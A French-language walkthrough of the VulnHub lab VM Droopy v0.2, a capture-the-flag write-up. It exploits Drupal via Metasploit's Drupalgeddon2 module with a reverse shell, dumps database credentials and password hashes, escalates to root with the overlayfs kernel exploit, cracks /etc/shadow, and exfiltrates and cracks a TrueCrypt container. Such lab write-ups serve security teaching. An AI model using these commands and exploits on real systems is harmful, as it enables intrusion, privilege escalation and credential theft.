



# Droopy: v0.2

[Droopy: v0.2](https://www.vulnhub.com/entry/droopy-v02,143/) est une machine virtuelle vulnérable, conçue par [knightmare2600](https://twitter.com/@knightmare2600) et publiée sur VulnHub au mois d'avril 2016. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Recherche d'informations avec netdiscover et nmap

Pour commencer, l'outil [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM Droopy : il s'agit de 192.168.56.102.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
 
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:0b:0c:0d:0e:0f      1      60  Unknown vendor
192.168.56.100  08:00:08:00:08:00      1      60  PCS Systemtechnik GmbH
192.168.56.102  08:00:27:9c:81:48      1      60  PCS Systemtechnik GmbH
```

Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation.

```console
root@blinils:~# nmap -sT -sV -p- -A 192.168.56.102
--snip--
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Welcome to La fraude fiscale des grandes soci\xC3\xA9t\xC3\xA9s | La fraud...
MAC Address: 08:00:27:9C:81:48 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
```

Seul le port 80 est ouvert, il s'agit d'un site Web sous [Drupal](https://fr.wikipedia.org/wiki/Drupal) intitulé « La fraude fiscale des grandes sociétés ». _Nota Bene : la VM porte-t-elle ce nom car Droopy et Drupal sont des [paronymes](https://fr.wikipedia.org/wiki/Paronymie) ? Ou bien parce que selon Wikipédia, l'un des gimmicks du personnage créé par Tex Avery est « Hello, all you happy taxpayers. » ?_



L'outil nmap a détecté la présence du fichier ```robots.txt```, qui contient trente-six entrées... pfou ! Il y a beaucoup de pistes à explorer.

D'une part, bien que le [_directory listing_](https://www.it-connect.fr/quest-ce-que-le-directory-browsinglisting/) soit activé sur le serveur, aucune donnée sensible — logins, mots de passe, hashs, autres points d'entrées — ne semble stockée et accessible dans les répertoires listés dans ```robots.txt``` : il s'agit des fichiers que l'on retrouve sur une installation Drupal classique. D'autre part, la procédure d'inscription est incomplète ; il n'est pas possible de naviguer sur le site avec un compte spécialement créé pour l'occasion : _```The username test has not been activated or is blocked```_.



L'information capitale qui nous permet d'avancer se situe dans le fichier ```CHANGELOG.txt```.



En effet, la version de Drupal installée est la 7.30 datant de juillet 2014 ; des failles de sécurité auront certainement été trouvées d'ici là.

```console
root@blinils:~# searchsploit drupal 7.
 ----------------------------------------------------------------------------------------------- 
| Exploit Title                                                                                 |
 ----------------------------------------------------------------------------------------------- 
| Drupal  < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution          |
| Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                             |
| Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                              |
| Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)                   |
| Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)                   |
| Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)                      |
| Drupal 7.12 - Multiple Vulnerabilities                                                        |
| Drupal 7.x Module Services - Remote Code Execution                                            |
| Drupal < 4.7.6 - Post Comments Remote Command Execution                                       |
| Drupal < 7.34 - Denial of Service                                                             |
| Drupal < 7.58 - 'Drupalgeddon3' Authenticated Remote Code (Metasploit)                        |
| Drupal < 7.58 - 'drupalgeddon3' Authenticated Remote Code Execution (PoC)                     |
| Drupal Module CKEditor < 4.1WYSIWYG (Drupal 6.x/7.x) - Persistent Cross-Site Scripting        |
| Drupal Module Coder < 7.x-1.3/7.x-2.6 - Remote Code Execution                                 |
| Drupal Module Cumulus 5.x-1.1/6.x-1.4 - 'tagcloud' Cross-Site Scripting                       |
| Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit)                             |
| Drupal avatar_uploader v7.x-1.0-beta8 - Arbitrary File Disclosure                             |
 ----------------------------------------------------------------------------------------------- 
```

## Exploitation de la CVE-2018-7600 (Drupalgeddon 2)

L'une d'entre elles semble particulièrement alléchante : [Drupalgeddon 2](https://www.cert.ssi.gouv.fr/alerte/CERTFR-2018-ALE-005/), référencée par l'identifiant [CVE-2018-7600](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7600). L'annonce faite [par l'éditeur](https://groups.drupal.org/security/faq-2018-002) en mars 2018 faisait froid dans le dos ; une vulnérabilité critique a été découverte par un chercheur en sécurité, permettant à un attaquant de réaliser des attaques afin de prendre illégalement le contrôle d'un site web Drupal vulnérable. Des correctifs ont depuis été communiqués par l'éditeur, mais surtout, des codes d'exploitation ont également été publiés sur Internet. Ce CTF est une bonne occasion de les tester...

```console
root@blinils:~# service postgresql start
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...

msf > search drupal

Matching Modules
================

Name                                           Disclosure Date  Rank       Description
----                                           ---------------  ----       -----------
auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Drupal OpenID External Entity Injection
auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Drupal Views Module Users Enumeration
exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  Drupal HTTP Parameter Key/Value SQL Injection
exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Drupal CODER Module Remote Command Execution
exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Drupal Drupalgeddon 2 Forms API Property Injection
exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Drupal RESTWS Module Remote PHP Code Execution
exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  PHP XML-RPC Arbitrary Code Execution

msf > use exploit/unix/webapp/drupal_drupalgeddon2

msf exploit(unix/webapp/drupal_drupalgeddon2) > set RHOST 192.168.56.102
RHOST => 192.168.56.102

msf exploit(unix/webapp/drupal_drupalgeddon2) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.56.101:4444 
[*] Drupal 7.x targeted at http://192.168.56.102/
[+] Drupal appears unpatched in CHANGELOG.txt
[*] Sending stage (37775 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.102:44530) at 2018-05-08 01:23:45 +0200
```

C'est gagné, nous avons un shell !

Il ne nous reste plus qu'à créer un [pseudo-terminal Bash](https://netsec.ws/?p=337) avec le module PTY.

```console
msf exploit(unix/webapp/drupal_drupalgeddon2) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer    : droopy
OS          : Linux droopy 3.13.0-43-generic #72-Ubuntu SMP Mon Dec 8 19:35:06 UTC 2014 x86_64
Meterpreter : php/linux

meterpreter > shell
Process 1276 created.
Channel 0 created.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

python -c 'import pty; pty.spawn("/bin/bash");'

www-data@droopy:/var/www/html$ 
```

## Élévation fortuite de privilèges

Nous sommes connectés en tant que ```www-data``` sur le serveur. Partons à la recherche de fichiers intéressants...

```console
www-data@droopy:/var/www/html$ ls
ls
CHANGELOG.txt	    LICENSE.txt      includes	  modules     update.php
COPYRIGHT.txt	    MAINTAINERS.txt  index.html   profiles    web.config
INSTALL.mysql.txt   README.txt	     index.php	  robots.txt  xmlrpc.php
INSTALL.pgsql.txt   UPGRADE.txt      info.php	  scripts
INSTALL.sqlite.txt  authorize.php    install.php  sites
INSTALL.txt	    cron.php	     misc	  themes
```

Seuls deux utilisateurs ont un accès bash au serveur : ```root``` et ```gsuser```.

Surprise, la tentative login = mot de passe a fonctionné pour le compte ```gsuser``` !

```console
www-data@droopy:/var/www/html$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
gsuser:x:1000:1000:Generic User,,,:/home/gsuser:/bin/bash

www-data@droopy:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@droopy:/var/www/html$ su - gsuser
su - gsuser
Password: gsuser

gsuser@droopy:~$ id
id
uid=1000(gsuser) gid=1000(gsuser) groups=1000(gsuser),24(cdrom),30(dip),46(plugdev),110(lpadmin)
```

## Accès à la base de données MySQL

Le fichier ```settings.php``` contient les identifiants de connexion à la base de données du serveur.

```console
www-data@droopy:/var/www/html/sites/default$ sed -n -e 213,227p settings.php
sed -n -e 213,227p settings.php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'nimda',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
```

Et hop, l'accès à la base de données nous est offert.

```console
www-data@droopy:/var/www/html/sites/default$ mysql -u drupaluser -p
mysql -u drupaluser -p
Enter password: nimda

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 105
Server version: 5.5.40-0ubuntu0.14.04.1 (Ubuntu)

--snip--

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupal             |
+--------------------+
2 rows in set (0.00 sec)

mysql> use drupal;
use drupal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> select uid, name, pass, mail from users;
select uid, name, pass, mail from users;
+-----+-------------+---------------------------------------------------------+------------------------+
| uid | name        | pass                                                    | mail                   |
+-----+-------------+---------------------------------------------------------+------------------------+
|   0 |             |                                                         |                        |
|   1 | drupaladmin | $S$Ds5SgCrqwrbxJY36HldOHA3C9wWH0W3DXMkHSXBb7SsYVfhhlM7s | drupal@knight139.co.uk |
|   2 | test        | $S$D/0DCbCuhwuXDbHMqREIzjKAZ83D8zOSd.gLRIEVvHSc.eVUxvhD | test@test.test         |
+-----+-------------+---------------------------------------------------------+------------------------+
3 rows in set (0.00 sec)
```

Oh, des hashs de mots de passe ! À toi de jouer, [__John The Ripper__](http://openwall.com/john/) !

```console
root@blinils:~# john passmysql
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (Drupal7, $S$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (drupaladmin)
1g 0:00:03:41 10.21% 2/3 (ETA: 16:01:30) 0.004507g/s 77.70p/s 94.43c/s 94.43C/s Wolverine1..Aaaa1
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

## Élévation de privilèges avec _'overlayfs' Local Privilege Escalation_

Mis à part les fichiers trouvés ci-dessus, il n'y a rien de plus à se mettre sous la dent. Quid du système d'exploitation installé ?

```console
gsuser@droopy:~$ uname -a
uname -a
Linux droopy 3.13.0-43-generic #72-Ubuntu SMP Mon Dec 8 19:35:06 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Depuis 2014, des codes d'exploitation auront sûrement été publiés sur Internet pour cette version du noyau Linux.

```console
root@blinils:~# searchsploit linux 3.13
 ------------------------------------------------------------------------------------------------------------------ 
| Exploit Title                                                                                                    |
 ------------------------------------------------------------------------------------------------------------------ 
| Linux Kernel 3.13 - SGID Privilege Escalation                                                                    |
| Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation             |
| Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access...) |
| Linux Kernel 3.13.1 - 'Recvmmsg' Local Privilege Escalation (Metasploit)                                         |
| Linux Kernel 3.13/3.14 (Ubuntu) - 'splice()' System Call Local Denial of Service                                 |
| Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32=y' Local Privilege Escalation (3)           |
| Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_X86_X32' Arbitrary Write (2)                                  |
| Linux Kernel 3.4 < 3.13.2 - recvmmsg x32 compat (PoC)                                                            |
| id Software Solaris Quake II 3.13/3.14 / QuakeWorld 2.0/2.1 / Quake 1.9/3.13/3.14 - Command Execution            |
| pam-krb5 < 3.13 - Local Privilege Escalation                                                                     |
 ------------------------------------------------------------------------------------------------------------------ 
```

Le premier exploit n'a pas fonctionné, mais le deuxième de la liste s'avère être le bon !

```console
meterpreter > upload /usr/share/exploitdb/exploits/linux/local/37292.c /tmp
[*] uploading  : /usr/share/exploitdb/exploits/linux/local/37292.c -> /tmp
[*] uploaded   : /usr/share/exploitdb/exploits/linux/local/37292.c -> /tmp/37292.c

meterpreter > shell
Process 1572 created.
Channel 5 created.

gcc /tmp/37292.c -o /tmp/37292

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

cd /tmp

chmod +x 37292

./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off

# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

On en profite au passage pour consulter le fichier ```/etc/shadow```. Celui-ci contient les mots de passe hashés de chaque compte Unix, ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes. L'outil __John The Ripper__ est en mesure de cracker les mots de passe Unix si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow``` de la VM (respectivement psw et shw), comme suit...

```console
root@blinils:~# unshadow psw shw > login
root@blinils:~# john login
Warning: detected hash type "sha512crypt", but the string is also recognized as "crypt"
Use the "--format=crypt" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
gsuser           (gsuser)
toor             (root)
2g 0:00:00:00 DONE 1/3 (2018-05-08 01:23) 40.00g/s 300.0p/s 320.0c/s 320.0C/s gsuser..toor
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

On se reconnecte en root et... nom d'un chien (Droopy !) le CTF n'est pas terminé !

```console
www-data@droopy:/var/www/html$ su - root
su - root
Password: toor

root@droopy:~# ls
ls
dave.tc
```

## Attaque par dictionnaire sur un conteneur TrueCrypt avec Truecrack

Un dernier challenge nous attend : ```dave.tc``` est un [conteneur TrueCrypt](https://fr.wikipedia.org/wiki/TrueCrypt) qui, a priori, doit contenir un message de félicitations de la part de l'auteur du CTF. Mais avant cela, il faut trouver le mot de passe de ce conteneur ! Exfiltrons discrètement ce conteneur à l'aide du meterpreter.

```console
root@droopy:~# base64 dave.tc > /tmp/dave.b64
base64 dave.tc > /tmp/dave.b64
root@droopy:~# exit
exit
logout
www-data@droopy:/var/www/html$ exit
exit
exit
exit
meterpreter > download /tmp/dave.b64 /root/droopy/dave.b64
[*] Downloading: /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 1.00 MiB of 6.75 MiB (14.81%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 2.00 MiB of 6.75 MiB (29.61%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 3.00 MiB of 6.75 MiB (44.42%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 4.00 MiB of 6.75 MiB (59.22%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 5.00 MiB of 6.75 MiB (74.03%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 6.00 MiB of 6.75 MiB (88.83%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] Downloaded 6.75 MiB of 6.75 MiB (100.0%): /tmp/dave.b64 -> /root/droopy/dave.b64
[*] download   : /tmp/dave.b64 -> /root/droopy/dave.b64
```

De retour sur notre machine, on enclenche le processus inverse.

```console
root@blinils:~# cat dave.b64 | base64 -d > dave.tc
root@blinils:~# file dave.tc
dave.tc: data
```

Sur le site VulnHub, knightmare nous a donné deux indices :

_```Grab a copy of the rockyou wordlist```_ et _```It's fun to read other people's email.```_

Attaquer bille en tête avec [__truecrack__](https://korben.info/comment-cracker-un-conteneur-truecrypt.html) et le dictionnaire [rockyou.txt](https://wiki.skullsecurity.org/Passwords) ne semble pas la meilleure option : il y a plus de 14 millions de mots de passe à tester, et après cinq minutes, seulement 1000 mots de passe ont été testés. Si mes calculs sont exacts, il faudrait donc 70 000 minutes pour tous les tester, soit 48 jours... le deuxième indice doit donc avoir son importance.

```console
www-data@droopy:/var/www/html$ find / -xdev -type f -print0 | xargs -0 grep -H "dave"

--snip--

/var/mail/www-data:From Dave <dave@droopy.example.com> Wed Thu 14 Apr 04:34:39 2016
/var/mail/www-data:From: Dave <dave@droopy.example.com>
grep: /var/cache/debconf/passwords.dat: Permission denied
grep: /var/cache/apt/archives/lock: Permission denied
Binary file /var/cache/apt/pkgcache.bin matches
Binary file /var/cache/apt/srcpkgcache.bin matches
/var/www/html/MAINTAINERS.txt:- Dave Reid 'davereid' http://drupal.org/user/53892
/var/www/html/MAINTAINERS.txt:- Dave Reid 'davereid' http://drupal.org/user/53892
/var/www/html/MAINTAINERS.txt:- Dave Reid 'davereid' http://drupal.org/user/53892
/var/www/html/MAINTAINERS.txt:- Dave Reid 'davereid' http://drupal.org/user/53892

www-data@droopy:/var/www/html$
```

Argh, effectivement, j'étais passé à côté du fichier ```/var/mail/www-data``` dans ma recherche. Voyons voir ce que ce mail recèle.

```console
www-data@droopy:/var/www/html$ cat /var/mail/www-data
cat /var/mail/www-data
From Dave <dave@droopy.example.com> Wed Thu 14 Apr 04:34:39 2016
Date: 14 Apr 2016 04:34:39 +0100
From: Dave <dave@droopy.example.com>
Subject: rockyou with a nice hat!
Message-ID: <730262568@example.com>
X-IMAP: 0080081351 0000002016
Status: NN

George,

   I've updated the encrypted file... You didn't leave any
hints for me. The password isn't longer than 11 characters
and anyway, we know what academy we went to, don't you...?

I'm sure you'll figure it out it won't rockyou too much!

If you are still struggling, remember that song by The Jam

Later,
Dave
```

Ce mail, qui aurait dû être trouvé avant d'être root, va nous permettre d'être davantage précis dans notre attaque. Le mot de passe qui protège le conteneur ne fait pas plus de 11 caractères, et semble contenir le mot ```academy```. C'est parti pour un filtrage en bonne et due forme du dictionnaire, une fois ces éléments en notre possession.

```console
root@blinils:~# grep -o -w '\w\{11\}' /media/sf_share/dicts/rockyou.txt > smallrockyou.txt
root@blinils:~# wc -l smallrockyou.txt
821210 smallrockyou.txt
root@blinils:~# grep "academy" smallrockyou.txt > academy.txt
root@blinils:~# wc -l academy.txt
16 academy.txt
```

Seulement 16 mots de passe à tester ? C'est royal.

```console
root@blinils:~# truecrack -k sha512 -t dave.tc -w academy.txt -v
TrueCrack v3.0
Website: http://code.google.com/p/truecrack
Contact us: infotruecrack@gmail.com

Memory initialization...

COUNT	PASSWORD	RESULT
0	staracademy	NO
1	academy1234	NO
2	wareacademy	NO
3	teamacademy	NO
4	risdacademy	NO
5	pinkacademy	NO
6	odomacademy	NO
7	kyleacademy	NO
8	fordacademy	NO
9	etonacademy	YES
Found password:		"etonacademy"
Password length:	"12"
Total computations:	"10"
```

Il ne reste plus qu'à ouvrir le conteneur avec le mot de passe trouvé, à l'aide de [ce tutorial](https://tails.boum.org/doc/encryption_and_privacy/truecrypt/index.fr.html).

```console
root@blinils:~# cryptsetup open --type tcrypt dave.tc dave
Enter passphrase for dave.tc: 

root@blinils:~# mount /dev/mapper/dave /media/dave

root@blinils:~# cd /media/dave/

root@blinils:/media/dave# ls -al
total 20
drwxr-xr-x 6 root root  1024 avril 12  2016 .
drwxr-xr-x 5 root root  4096 mai    8 16:54 ..
drwxr-xr-x 2 root root  1024 avril 12  2016 buller
drwx------ 2 root root 12288 avril 12  2016 lost+found
drwxr-xr-x 2 root root  1024 avril 12  2016 panama
drwxr-xr-x 3 root root  1024 avril 12  2016 .secret
```

On trouve finalement le flag tant convoité, ce qui conclut ce _walkthrough_ ! Merci à [knightmare2600](https://twitter.com/@knightmare2600) pour cette VM !

```console
root@blinils:/media/dave/.secret/.top# cat flag.txt

################################################################################
#   ___ ___  _  _  ___ ___    _ _____ _   _ _      _ _____ ___ ___  _  _  ___  #
#  / __/ _ \| \| |/ __| _ \  /_\_   _| | | | |    /_\_   _|_ _/ _ \| \| |/ __| #
# | (_| (_) | .` | (_ |   / / _ \| | | |_| | |__ / _ \| |  | | (_) | .` |\__ \ #
#  \___\___/|_|\_|\___|_|_\/_/ \_\_|  \___/|____/_/ \_\_| |___\___/|_|\_||___/ #
#                                                                              #
################################################################################

Firstly, thanks for trying this VM. If you have rooted it, well done!

Shout-outs go to #vulnhub for hosting a great learning tool. A special thanks
goes to barrebas and junken for help in testing and final configuration.
                                                                    --knightmare
```